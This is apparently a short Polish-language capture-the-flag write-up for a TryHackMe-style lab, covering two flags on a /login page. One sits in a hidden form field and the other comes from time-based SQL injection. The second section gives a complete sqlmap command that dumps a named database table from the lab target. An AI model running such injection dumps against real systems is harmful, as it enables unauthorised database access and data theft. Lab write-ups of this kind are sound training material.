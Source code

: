 *Easter 3*

Wchodzimy na `/login`, otwieramy source code, tam znajdziemy pole hidden, gdy je rozwiniemy ukaże nam się flaga.

![alt text](image-21.png)

*Easter 4*

Strona `/login/` ma jeszcze jedną podatność, jest odkryta na atak SQL injection time-based, po przeprowadzeniu testów używając sqlmap, komendą która dała mi odpowiedź było: 

`sqlmap -u "http://10.10.143.77/login/" --data="password=pass&username=user" -D THM_f0und_m3 -T nothing_inside -C Easter_4 --dump`

![alt text](image-33.png)
